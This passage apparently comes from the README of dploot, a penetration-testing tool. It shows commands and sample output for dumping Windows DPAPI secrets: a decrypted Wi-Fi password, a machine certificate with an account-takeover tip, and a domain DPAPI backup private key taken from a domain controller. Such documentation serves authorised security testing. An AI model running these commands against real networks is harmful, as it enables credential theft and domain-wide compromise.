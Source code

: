 ```text
	serverAuth (1.3.6.1.5.5.7.3.1)

-----BEGIN CERTIFICATE-----
MIIFPjCCBCagAwIBAgITZQAAAISBaXZr8y2FGgAAAAAAhDANBgkqhkiG9w0BAQsF
[...]
xRRV6lYfMcgisA8kkOMm6pgBMJNsYqJdMHE9pA86h8/akuRI8POp7FfcS/futKU0
ROw=
-----END CERTIFICATE-----

[*] Writting certificate to 1337972D3978595AF8AFF9FD62864CA9BB956308.pfx
```

***Tips***: *If you get a certificate with client authentication EKU, you can takeover the account with [certipy](https://github.com/ly4k/Certipy).*

#### machinetriage

The machinetriage command runs the [machinecredentials](#machinecredentials), [machinevaults](#machinevaults) and [machinecertificates](#machinecertificates).

### Misc

#### wifi

The **wifi** command will get any wifi xml configuration file file and decrypt them with `-mkfile FILE` of one or more {GUID}:SHA1, otherwise dploot willdump DPAPI_SYSTEM LSA secret key. in order to decrypt any machine masterkeys, and then decrypt any found encrypted DPAPI private key blob.

```text
$ dploot wifi waza.local/Administrator:'Password!123'@192.168.57.5
[*] Connected to 192.168.57.5 as waza.local\Administrator (admin)
[*] Found Wifi connection file: \\192.168.57.5\C$\ProgramData\Microsoft\Wlansvc\Profiles\Interfaces\{2E1E83F0-3CA0-4C19-B8B1-CB461E71F500}\{81241E8C-AC1D-43F6-8EB8-E28275D7ED33}.xml
[WIFI]
Name:           WFD_[...]
AuthType:       WPA2PSK
Pass:           StrongWifiPassMyFriend 
```

#### backupkey

The **backupkey** command will retrieve the domaain DPAPI backup key from a domain controller using [MS-LDAD](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-lsad/1b5471ef-4c33-4a91-b079-dfcbb82f05cc). This key never changes and can decrypt any domain user DPAPI protected secret. Domain Admin privileges are required.

By default, this command will write the domain backup key into a file called key.pvk, but you can change this with `outputfile` flag. It is also possible to dump legacy backup key with `legacy` flag.

```text
$ dploot backupkey waza.local/Administrator:'Password!123'@192.168.57.20
[DOMAIN BACKUPKEY V2]

PVK_FILE_HDR
dwMagic: {2964713758}
dwVersion: {0}
dwKeySpec: {1}
dwEncryptType: {0}
cbEncryptData: {0}
cbPvk: {1172}
PRIVATEKEYBLOB:{1ef1b5b000000000010000000000000000000000940400000702000000a400005253413200080000010001005df0d3876d1a19b74061ca3dc955d51522b8c4e51fc369bf9eb0101e3953852c05346[...]
13846280711a00ab0339225c226f5260d4379bd00a879554ecc3adbf42b44ef93848fa54aa1ac75da63317689787995fa379c0a0e498f7a656a24b74936ec5b191f7d89da8d113c90c515b1d54335b27193391ee6174075c9f79e}

[*] Exporting private key to file key.pvk
```
